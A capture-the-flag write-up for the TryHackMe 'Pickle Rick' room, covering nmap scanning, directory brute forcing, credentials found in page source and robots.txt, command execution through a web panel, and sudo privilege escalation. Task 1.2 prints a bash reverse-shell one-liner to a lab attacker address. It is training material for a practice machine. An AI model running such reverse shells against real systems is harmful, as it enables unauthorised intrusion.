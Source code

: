 ```yaml
---
title: THM | Pickle Rick
image: /images/pickle-rick.jpeg
date: 2020-08-25 09:00:00 -4:00
categories: [CTFs & Walkthroughs, TryHackMe]
tags: [nmap, dirb, gobuster, nikto, webapp] # add tag
---
```


# Description

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

> Difficulty: Easy
> 
> Link: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

![](/images/picklerick.gif)

# Task 1.1 - What is the first ingredient Rick needs?

## Information Gathering

Start off with a basic nmap scan to see what is available to us.

![](/images/pr-nmap.png)

| Argument | Description |  
| :---: | :---: |  
| -sCV | Combines -sC and -sV into one argument (-sC uses default scripts and -sV gets service/version info) |  
| -v | Increase verbosity level (use -vv or more for greater effect) |

```console
Not shown: 998 closed ports                                                                                                                                  
PORT   STATE SERVICE VERSION                                                                                                                                 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)                                                                            
| ssh-hostkey:                                                                
|   2048 60:c4:d7:0e:d3:88:40:2d:bd:4d:5d:e5:c9:56:8b:c0 (RSA)                
|   256 84:c5:c3:e5:6c:3a:ac:bc:95:fb:47:7e:b7:7f:82:2f (ECDSA)               
|_  256 ab:da:0a:62:72:cb:cd:bc:99:7b:cc:a5:37:a0:29:b9 (ED25519)                                                                                            
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                           
| http-methods:                                                               
|_  Supported Methods: GET HEAD POST OPTIONS                                  
|_http-server-header: Apache/2.4.18 (Ubuntu)                                  
|_http-title: Rick is sup4r cool                                                                                                                             
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the above output we learn that ports **22** and **80** are open. It's good practice to have another scan going that checks for all ports just in case there is an unusual port open. Nothing else is open on this box.

## Webpage

Let's poke around the webpage in a browser and see what's there.

![](/images/pr-homepage.png)

Just a page with an image and a message with our task. Let's check out the source code.

```html
<!DOCTYPE html>
<html lang="en">
<head>
<title>Rick is sup4r cool</title>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="stylesheet" href="[assets/bootstrap.min.css](http://10.10.85.173/assets/bootstrap.min.css)">
<script src="[assets/jquery.min.js](http://10.10.85.173/assets/jquery.min.js)"></script>
<script src="[assets/bootstrap.min.js](http://10.10.85.173/assets/bootstrap.min.js)"></script>
<style>
.jumbotron {
background-image: url("assets/rickandmorty.jpeg");
background-size: cover;
height: 340px;
}
</style>
</head>
<body>
<div class="container">
<div class="jumbotron"></div>
<h1>Help Morty!</h1></br>
<p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
<p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
</div>
<!--
Note to self, remember username!
Username: R1ckRul3s
-->
</body>
</html>
```

Much more helpful, there is a username given in a comment.

## Gobuster

I'm going to use gobuster to brute force directory names on the server.

![](/images/pr-gobuster2.png)

Go to the robots.txt page and see what's there.

![](/images/pr-robots.png)

Just a blank page with the word *Wubbalubbadubdub*. Looks like a password to me, so now we have some potentially valid credentials. I initially tried logging into SSH with these, but they were not working. So I used **nikto** to enumerate further.

## nikto

![](/images/pr-nikto2.png)
>*Note: This scan will take a long time to finish.*

Nikto found **/login.php**. Perfect, now we have another place to try our credentials. 

![](/images/pr-login.png)

Our creds work here and it brings us to a command panel that gives us command execution on the server.

![](/images/pr-command-portal.png)

Let's see where we are and what's here. We've found the first ingredient.

![](/images/pr-ls2.png)

Using the cat command doesn't work from here though.

![](/images/pr-cat.png)

I used **strings** as an alternative.

![](/images/pr-firstflag.png)

Finally, we have the first ingredient.

# Task 1.2 - Whats the second ingredient Rick needs?
## Reverse Shell
So from here my main goal was to get a reverse shell on to the box, I always use [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for reference. I tried a nc shell, didn't work, then tried a php shell, didn't work. I was actually stuck here for a bit and just trying random shells in the command panel. Turns out you have to evoke a bash command before the nc shell syntax.
```bash
bash -c "bash -i >& /dev/tcp/10.6.11.75/9001 0>&1"
```

This works, so just set up a nc listener on the port you chose, in my case I'll use 9001.
![](/images/pr-nc.png)

Now that we have a shell I want to see if we can access another user's directory and just poke around the system. Lucky for us rick's home directory has full 777 permissions on it. Inside his directory is the second ingredient.

![](/images/pr-secflag2.png)

# Task 1.3 - Whats the final ingredient Rick needs?
## Privilege Escalation
There is only one flag left to get, so I just assume I will need to be root to get it. I thought for sure I would need to escalate to rick's account before I could get root's, but that's not the case here. Normally it doesn't make sense to check the sudo permissions of the www-data account because we don't even have a password, and by default this account has no permissions other than what's needed to operate the web server. 

This is a good example of just doing the easy priv esc checks before over thinking it. So check the sudo permissions of our current account.
![](/images/pr-sudo-l.png)

Boom. That's right, the www-data account has full sudo permissions with no password needed. Very weird. In fact, you can complete all the tasks from the command panel on the web page by using sudo. No reverse shell needed.

Just do a sudo su and you will have root.
![](/images/pr-3flag.png)

That's it, machine rooted and all task complete.

